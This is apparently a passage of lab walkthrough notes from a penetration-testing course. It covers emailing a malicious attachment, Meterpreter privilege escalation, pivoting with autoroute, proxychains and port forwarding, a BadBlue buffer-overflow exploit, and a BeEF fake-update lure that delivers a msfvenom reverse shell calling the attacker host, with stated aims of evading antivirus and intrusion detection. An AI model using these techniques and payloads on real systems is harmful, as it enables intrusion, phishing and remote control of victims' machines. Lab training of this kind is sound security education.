s = smtplib.SMTP('demo.ine.local', 25)

# Converts the Multipart msg into a string
text = msg.as_string()

# sending the mail
s.sendmail(fromaddr, toaddr, text)

# terminating the session
s.quit()

# print confirmation message print("Email has been sent successfully.")
print("Email has been sent successfully.")
```

`chmod +x /root/Desktop/smtplib_send_email.py`, `/root/Desktop/smtplib_send_email.py`

Note that the email attachment will be executed automatically.

<span style="color: #64b5f6;">**Target (victim #1: demo.ine.local) machine**</span>.

`getuid`:
```
Server username: INE\administrator ←
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600). ←
Architecture    : x64
System Language : en_US
Domain          : INE
Logged On Users : 4
Meterpreter     : x86/windows
```

`getprivs`:
```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`shell`, `ping -n 3 demo1.ine.local`:
```
ping -n 3 demo1.ine.local
Ping request could not find host demo1.ine.local. Please check the name and try again.
```

`ping -n 3 10.4.22.0`:
```
Pinging 10.4.22.0 with 32 bytes of data:
Reply from 10.4.22.0: bytes=32 time=1ms TTL=128
Reply from 10.4.22.0: bytes=32 time<1ms TTL=128
Reply from 10.4.22.0: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.22.0:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

`exit`

`ipconfig`:
```
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
============
Name         : AWS PV Network Device #0
Hardware MAC : 0e:71:cf:2b:ca:df
MTU          : 9001
IPv4 Address : 10.4.29.21 ←
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::5cc:327:5301:9192
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

`run autoroute -s 10.4.29.21/20`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.4.29.21/255.255.240.0...
[+] Added route to 10.4.29.21/255.255.240.0 via 10.4.29.21 ←
[*] Use the -p option to list all active routes
```

`bg`

<span style="color: #e57373;">**Attacker machine**</span>.

`cat /etc/proxychains4.conf`:
```

...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `exploit`, `jobs`:
```
Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy ←
```

`netstat -antp | grep ":9050"`:
```
tcp        0      0 0.0.0.0:9050            0.0.0.0:*               LISTEN      389/ruby    ←
```

`proxychains nmap -Pn -sT -F demo1.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-25 20:06 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:8080 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:139  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:110 <--denied

...

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:1433 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:79 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.28.119:5009 <--denied
Nmap scan report for demo1.ine.local (10.4.28.119)
Host is up (1.1s latency).
Not shown: 91 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http ←
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 99.52 seconds
```

<span style="color: #64b5f6;">**Target (victim #1: demo.ine.local) machine**</span>.

`sessions`, `session -i 1`

`portfwd add -l 1234 -p 80 -r 10.4.28.119`:
```
[*] Local TCP relay created: :1234 <-> 10.4.28.119:80 ←
```

`bg`

<span style="color: #e57373;">**Attacker machine**</span>.

`nmap -sS -sV localhost -p 1234`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-25 20:12 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000038s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    BadBlue httpd 2.7 ←
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.18 seconds
```

`searchsploit badblue 2.7`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                      | windows/remote/4784.pl ←
BadBlue 2.72b - Multiple Vulnerabilities                                                                            | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                               | windows/remote/16806.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`search badblue`, `use exploit/http/badblue_passthru`, `show options`, `set PAYLOAD windows/meterpreter/bind_tcp`, `set RHOSTS demo1.ine.local`, `set LPORT 5555`, `exploit`: 
```
[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.4.28.119:5555
[*] Sending stage (175174 bytes) to 10.4.28.119
[*] Meterpreter session 2 opened (10.4.29.21:51323 -> 10.4.28.119:5555 via session 1) at 2024-07-25 20:15:16 +0530
```

<span style="color: #64b5f6;">**Target (victim #2: demo1.ine.local) machine**</span>.

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`getprivs`:
```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`pgrep explorer.exe`:
```
2888
```

`migrate 2888`:
```
[*] Migrating from 2508 to 2888...
[*] Migration completed successfully.
```

---

## Browser Attacks

### Establishing a Shell through the Victim's Browser (with BeEF) - Lab

#### Lab Environment

**Scenario**

In this lab you will be able to practice the attack vector development techniques explained in the course.

During the lab, you will perform a remote social engineering attack against a target.

The attack's requirements are the following.

The target should visit an attacker-controlled webpage with BeEF running underneath.
The target will be prompted to download and run a malicious reverse shell payload that will connect back to the attacker's listener.
Our attack's requirements are as follows.
1. The target's browser needs to be hooked using BeEF.
2. The victim will be redirected to download the attack's stage payload.
3. The commands and modules to be executed will be sent and received using BeEF.

Don't panic, we will automate most of the attack's steps and put everything in a single attack vector.

Note: For optimum results, we will perform the attack against a Firefox browser. The attack works on all browsers but it is optimized for Firefox.

It should be noted here, that other ways exist to achieve similar functionality, like the beaconing malware that we covered in the Advanced Social Engineering module.

**Goals**

Develop a custom social engineering attack to establish a stealthy shell through the target's browser.

Develop a custom AutoIt script and executable to automate most of the attack's lifecycle.

The shell should be difficult to detect, everything should look like normal browsing traffic.

**What you will learn**

During the lab, you will learn how various techniques can be combined to compromise a target, during a social engineering attack. You will also learn how to evade modern defenses (A/V, HIDS, NIDS etc.), by writing custom code and misusing legitimate browser and .NET functionality. Finally, you will get familiar with the capabilities offered by AutoIt.

To guide you during the lab you will find different tasks.
Tasks are meant for educational purposes and to show you the usage of different tools and different methods to achieve the same goal.
They are not meant to be used as a methodology.
Armed with the skills acquired though the task you can achieve the lab goal.

If this is the first time you do this lab, we advise you to follow these tasks:
1. Setup the social engineering site with BeEF
2. Automate the attack and put everything in a single attack vector
3. Preparing our initial access payload
4. Launching the attack.

Once you have completed all the tasks, you can proceed to the end of this paper and check the solutions.

Recommended tools:
- BeEF
- AutoIt

Note: This lab provides you with an Attacker Machine running Kali and a Target Machine running Windows. Both systems have been pre-configured with all the pre-requisite software required to facilitate the attack.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

1. Setup the social engineering site with BeEF.

Start BeEF (The Browser Exploitation Framework): `sudo beef-xss`.

`netstat -antp | grep ":3000"`:
```
 tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      350/ruby             ←
```

Open BeEF's web interface in your browser and log in with the provided credentials (Username: "beef", Password: "password"): `firefox http://127.0.0.1:3000/ui/authentication &`.

Configure the Hooking Page.

`ip addr | grep -i "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.3/16 brd 10.1.255.255 scope global eth0
inet 10.10.22.2/24 brd 10.10.22.255 scope global eth1 ←
```

`cd /var/www/html`, `vim index.html`:
```html
<html>
	<head>
		<script src="http://10.10.22.2:3000/hook.js"></script>
	</head>
	<body>
		<h1>Please update your browser to access the website</h1>
	</body>
</html>
```

Start the Apache server: `service apache2 start`.

`netstat -antp | grep ":80"`:
```     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      781/apache2         ←
```

Test Browser Hooking.

Open the hooking page on the attacker's browser to test: `firefox http://127.0.0.1:80 &`.

Once the browser is hooked, you can see it in the BeEF UI panel.

Simulate Hooking a Victim's Browser.

Set up and start the Meterpreter reverse shell Handler.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.22.2 ←
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

Create the Malicious Executable.

`cd /var/www/html`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.22.2 LPORT=4444 -f exe -o ./update.exe`

Restart Apache: `service apache2 stop`,  `service apache2 start`.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

Get the victim's IP address.

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::5dc8:2ee4:ce65:a265%13
   IPv4 Address. . . . . . . . . . . : 10.4.16.231 ←
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:
   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal
```

Ensure connectivity to the attacker machine.

`ping -n 3 10.10.22.2`:
```
Pinging 10.10.22.2 with 32 bytes of data:
Reply from 10.10.22.2: bytes=32 time=8ms TTL=62
Reply from 10.10.22.2: bytes=32 time=8ms TTL=62
Reply from 10.10.22.2: bytes=32 time=8ms TTL=62

Ping statistics for 10.10.22.2:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 8ms, Maximum = 8ms, Average = 8ms
```

`route print`:
```
===========================================================================
Interface List
 13...0e db 9a 0e b3 01 ......Amazon Elastic Network Adapter
  1...........................Software Loopback Interface 1
 14...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0        10.4.16.1      10.4.16.231      5 ←
        10.4.16.0    255.255.240.0         On-link       10.4.16.231    261
      10.4.16.231  255.255.255.255         On-link       10.4.16.231    261
      10.4.31.255  255.255.255.255         On-link       10.4.16.231    261
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  169.254.169.123  255.255.255.255         On-link       10.4.16.231      5
  169.254.169.249  255.255.255.255         On-link       10.4.16.231      5
  169.254.169.250  255.255.255.255         On-link       10.4.16.231      5
  169.254.169.251  255.255.255.255         On-link       10.4.16.231      5
  169.254.169.253  255.255.255.255         On-link       10.4.16.231      5
  169.254.169.254  255.255.255.255         On-link       10.4.16.231      5
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link       10.4.16.231    261
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  255.255.255.255  255.255.255.255         On-link       10.4.16.231    261
===========================================================================
Persistent Routes:
  None
```

`tracert 10.10.22.2`:
```
Tracing route to ip-10-10-22-2.ec2.internal [10.10.22.2]
over a maximum of 30 hops:

  1     *        *        *     Request timed out.
  2     8 ms     8 ms     7 ms  169.254.3.2
  3     8 ms     7 ms     7 ms  169.254.47.98
  4     8 ms     7 ms     7 ms  ip-10-10-22-2.ec2.internal [10.10.22.2] ←

Trace complete.
```

Simulate Victim Visiting the Hooking Page.

Use AutoIt to simulate opening the hooking page:
```
$path = "C:\Program Files (x86)\Firefox Developer Edition\"
$path1 = "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\"
ShellExecute($path & "firefox.exe", "http://10.10.22.2", "", "", @SW_HIDE)
WinWait("[TITLE:Firefox Developer Edition]")
WinSetState("[LAST]", "", @SW_HIDE)
Sleep(60000)
ProcessClose("firefox.exe")
```

Compile (x86) the AutoIt script and execute the resulting `autoitscript.exe` file to hook the victim's browser.
We can see in the beEF UI panel a new hooked browser, the victim one.

<span style="color: #e57373;">**Attacker machine**</span>.

Exploitation from Attacker's Machine.

From the beEF UI's Commands tab of the victim hooked browser we can select Fake Notification Bar (Firefox) into the Social Engineering category:
```
Plugin URL: http://10.10.22.2/update.exe ←
Notification text: You must update your browser to view this website, please download and install the update.
```

Execute the command. The victim will see a fake update notification with a download button.

Once the victim execute the update.exe file, the attacker will have a reverse shell on the victim machine.

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

**Additional Commands**

In the BeEF UI, you can execute more interesting commands like:
- **Spoof Address Bar:** to redirect the user to a different URL.
- **Firefox Extension (Dropper):** to install a malicious extension.
- **HTA PowerShell:** to execute PowerShell commands on the victim's machine.

---
---
